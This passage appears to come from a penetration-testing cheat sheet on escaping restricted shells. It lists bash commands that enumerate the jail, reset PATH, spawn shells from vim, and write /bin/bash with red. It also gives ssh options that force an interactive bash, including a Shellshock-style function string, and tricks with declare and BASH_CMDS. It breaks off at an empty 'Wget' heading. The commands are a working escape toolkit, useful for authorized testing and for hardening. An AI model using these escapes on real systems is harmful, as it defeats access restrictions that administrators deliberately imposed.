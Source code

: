 Get info about the jail:

```bash
echo $SHELL
echo $PATH
env
export
pwd
```

### Modify PATH

Check if you can modify the PATH env variable

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

### Using vim

```bash
:set shell=/bin/sh
:shell
```

### Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

### Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

### Declare

```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

### Wget
